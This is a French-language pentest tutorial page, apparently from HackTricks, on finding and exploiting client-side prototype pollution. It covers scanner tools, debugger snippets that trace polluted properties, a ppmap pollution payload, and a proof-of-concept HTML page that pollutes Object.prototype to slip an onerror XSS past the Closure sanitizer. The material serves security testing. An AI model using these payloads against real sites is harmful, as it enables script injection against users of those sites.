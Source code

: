 # Pollution de Prototype Côté Client

{{#include ../../../banners/hacktricks-training.md}}

## Découverte à l'aide d'outils automatiques

Les outils [**https://github.com/dwisiswant0/ppfuzz**](https://github.com/dwisiswant0/ppfuzz?tag=v1.0.0)**,** [**https://github.com/kleiton0x00/ppmap**](https://github.com/kleiton0x00/ppmap) **et** [**https://github.com/kosmosec/proto-find**](https://github.com/kosmosec/proto-find) peuvent être utilisés pour **trouver des vulnérabilités de pollution de prototype**.

De plus, vous pouvez également utiliser l'**extension de navigateur** [**PPScan**](https://github.com/msrkp/PPScan) pour **scanner automatiquement** les **pages** que vous **accédez** à la recherche de vulnérabilités de pollution de prototype.

### Débogage de l'utilisation d'une propriété <a href="#id-5530" id="id-5530"></a>
```javascript
// Stop debugger where 'potentialGadget' property is accessed
Object.defineProperty(Object.prototype, "potentialGadget", {
__proto__: null,
get() {
console.trace()
return "test"
},
})
```
### Trouver la cause profonde de la pollution de prototype <a href="#id-5530" id="id-5530"></a>

Une fois qu'une vulnérabilité de pollution de prototype a été identifiée par l'un des outils, et si le code n'est pas trop complexe, vous pourriez trouver la vulnérabilité en recherchant des mots-clés tels que `location.hash`, `decodeURIComponent` ou `location.search` dans les outils de développement Chrome. Cette approche vous permet de localiser la section vulnérable du code JavaScript.

Pour des bases de code plus grandes et plus complexes, une méthode simple pour découvrir le code vulnérable implique les étapes suivantes :

1. Utilisez un outil pour identifier une vulnérabilité et obtenir un payload conçu pour définir une propriété dans le constructeur. Un exemple fourni par ppmap pourrait ressembler à : `constructor[prototype][ppmap]=reserved`.
2. Définissez un point d'arrêt à la première ligne de code JavaScript qui s'exécutera sur la page. Actualisez la page avec le payload, en mettant l'exécution en pause à ce point d'arrêt.
3. Pendant que l'exécution JavaScript est en pause, exécutez le script suivant dans la console JS. Ce script signalera quand la propriété 'ppmap' est créée, aidant à localiser son origine :
```javascript
function debugAccess(obj, prop, debugGet = true) {
var origValue = obj[prop]

Object.defineProperty(obj, prop, {
get: function () {
if (debugGet) debugger
return origValue
},
set: function (val) {
debugger
origValue = val
},
})
}

debugAccess(Object.prototype, "ppmap")
```
4. Retournez à l'onglet **Sources** et sélectionnez "Reprendre l'exécution du script". Le JavaScript continuera à s'exécuter, et la propriété 'ppmap' sera polluée comme prévu. L'utilisation de l'extrait fourni facilite l'identification de l'emplacement exact où la propriété 'ppmap' est polluée. En examinant la **Call Stack**, différentes piles où la pollution s'est produite peuvent être observées.

Lors de la décision sur quelle pile enquêter, il est souvent utile de cibler les piles associées aux fichiers de bibliothèques JavaScript, car la pollution de prototype se produit fréquemment dans ces bibliothèques. Identifiez la pile pertinente en examinant son attachement aux fichiers de bibliothèque (visible sur le côté droit, similaire à une image fournie pour orientation). Dans les scénarios avec plusieurs piles, comme celles des lignes 4 et 6, le choix logique est la pile de la ligne 4, car elle représente la première occurrence de pollution et donc la cause profonde de la vulnérabilité. Cliquer sur la pile vous dirigera vers le code vulnérable.

![https://miro.medium.com/max/1400/1*S8NBOl1a7f1zhJxlh-6g4w.jpeg](https://miro.medium.com/max/1400/1*S8NBOl1a7f1zhJxlh-6g4w.jpeg)

## Trouver des gadgets de script

Le gadget est le **code qui sera abusé une fois qu'une vulnérabilité PP est découverte**.

Si l'application est simple, nous pouvons **chercher** des **mots-clés** comme **`srcdoc/innerHTML/iframe/createElement`** et examiner le code source pour vérifier s'il **conduit à l'exécution de javascript**. Parfois, les techniques mentionnées peuvent ne pas trouver de gadgets du tout. Dans ce cas, une simple révision du code source révèle de jolis gadgets comme l'exemple ci-dessous.

### Exemple de recherche de gadget PP dans le code de la bibliothèque Mithil

Consultez cet article : [https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/](https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/)

## Recompilation des charges utiles pour les bibliothèques vulnérables

- [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution)
- [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)

## Contournement des assainisseurs HTML via PP

[**Cette recherche**](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) montre des gadgets PP à utiliser pour **contourner les assainissements** fournis par certaines bibliothèques d'assainisseurs HTML :

- **sanitize-html**

<figure><img src="../../../images/image (1140).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-7.png"><figcaption></figcaption></figure>

- **dompurify**

<figure><img src="../../../images/image (1141).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-9.png"><figcaption></figcaption></figure>

- **Closure**
```html
<!-- from https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/ -->
<script>
Object.prototype['* ONERROR'] = 1;
Object.prototype['* SRC'] = 1;
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
goog.require('goog.html.sanitizer.HtmlSanitizer');
goog.require('goog.dom');
</script>
<body>
<script>
const html = '<img src onerror=alert(1)>';
const sanitizer = new goog.html.sanitizer.HtmlSanitizer();
const sanitized = sanitizer.sanitize(html);
const node = goog.dom.safeHtmlToNode(sanitized);

document.body.append(node);
</script>
```
## Références

- [https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746](https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746)
- [https://blog.s1r1us.ninja/research/PP](https://blog.s1r1us.ninja/research/PP)
- [https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/#:\~:text=my%20challenge.-,Closure,-Closure%20Sanitizer%20has](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)

{{#include ../../../banners/hacktricks-training.md}}
